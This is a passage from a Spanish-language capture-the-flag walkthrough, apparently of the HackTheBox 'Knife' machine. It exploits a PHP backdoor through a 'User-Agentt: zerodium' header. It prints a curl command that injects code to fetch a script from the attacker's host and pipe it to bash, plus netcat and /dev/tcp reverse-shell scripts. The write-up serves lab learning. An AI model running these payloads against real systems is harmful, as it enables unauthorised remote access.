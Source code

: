 Lo lee, solo nos queda indicarle que en vez de leer el script lo interprete, o sea, lo ejecute:

```bash
❱ curl -s http://10.10.10.242/ -H 'User-Agentt: zerodium;system("/usr/bin/curl http://10.10.14.103:8000/rev.sh | bash");' | head
```

Y en nuestro listener obtenemos:

![347bash_phpvuln_idNC](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/knife/347bash_phpvuln_idNC.png)

Perfessssssto, pues ahora si hagamos la **Reverse Shell**, lo único que debemos cambiar es nuestro archivo `.sh` y volvernos a poner en escucha:

```bash
❱ cat rev.sh 
#!/bin/bash

nc 10.10.14.103 4433 -e /bin/bash
```

Con esto le indicamos que apenas establezca la conexión con el puerto **4433** de nuestra máquina nos lance una `/bin/bash` (una **Shell**)...

Pero ejecutando de nuevo no conseguimos nada. 

Lo más probable es que la versión de **nc** que tenga el sistema sea la que **no soporta** el uso del parámetro `-e`, así que modifiquemos el archivo `.sh` con otra opción:

```bash
❱ cat rev.sh 
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.103/4433 0>&1'
```

Prácticamente le indicamos lo mismo, "apenas obtengas la conexión con el puerto lánzame una `bash`", ejecutamos nuestro `curL` yyyyy:

```bash
❱ curl -s http://10.10.10.242/ -H 'User-Agentt: zerodium;system("/usr/bin/curl http://10.10.14.103:8000/rev.sh | bash");'
```

![347bash_phpvuln_jamesRevSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/knife/347bash_phpvuln_jamesRevSH.png)

Bien, ahora tenemos una **Shell** como **james** en la máquina (:

## Tratamiento de la TTY

Antes de seguir hagamos nuestra terminal un poco más amigable, permitiéndonos así ejecutar `CTRL+C`, tener histórico de comandos y movernos entre ellos:

```bash
james@knife:/$ script /dev/null -c bash
#Ejecutamos CTRL+Z
james@knife:/$ ^Z 
[1]+  Detenido                nc -lvp 4433
```

